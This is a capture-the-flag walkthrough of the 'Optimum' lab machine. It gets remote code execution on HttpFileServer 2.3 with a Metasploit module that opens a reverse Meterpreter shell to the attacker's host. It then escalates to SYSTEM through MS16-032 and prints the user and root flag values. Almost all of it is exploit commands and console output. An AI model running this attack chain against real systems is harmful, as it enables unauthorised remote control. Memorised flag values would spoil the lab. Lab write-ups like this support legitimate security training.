

# Optimum

## RCE via Vulnerable HttpFileServer Version
`HttpFileServer 2.3` causes remote code execution.



https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/

### Exploitation Using Metasploit Module
```
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Using URL: http://0.0.0.0:8080/Idp1ZP
[*] Local IP: http://192.168.1.31:8080/Idp1ZP
[*] Server started.
[*] Sending a malicious request to /
/opt/metasploit-framework/embedded/framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/opt/metasploit-framework/embedded/framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /Idp1ZP
[*] Sending stage (175174 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\kNBrhrhyKWGhSm.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.10.8:49162) at 2021-03-28 01:45:48 +0300
[*] Server stopped.

meterpreter > getuid
Server username: OPTIMUM\kostas
```

## The User Flag
```
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2021-04-03 10:43:47 +0300  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 14:57:16 +0300  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 13:58:52 +0200  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 15:13:18 +0300  user.txt.txt
```

```
meterpreter > cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

## Local Suggester
```
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 37 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed
```

## Privilege Escalation
```
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > check

[+] Compressed size: 1016
[*] The service is running, but could not be validated.
```

```
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\OXfoTyhEdc.ps1...
[*] Compressing script contents...
[+] Compressed size: 3596
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2540

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2520
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

HYTd0ZjhNtYNDQcW2NqQMhvHmWf7VDEQ
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.11:4444 -> 10.10.10.8:49164) at 2021-03-28 01:54:38 +0300
[+] Deleted C:\Users\kostas\AppData\Local\Temp\OXfoTyhEdc.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## The Root Flag
```
meterpreter > dir
Listing: C:\users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-18 14:52:56 +0300  desktop.ini
100444/r--r--r--  32    fil   2017-03-18 15:13:57 +0300  root.txt

meterpreter > cat root.txt
51ed1b36553c8461f4552c2e92b3eeed
```
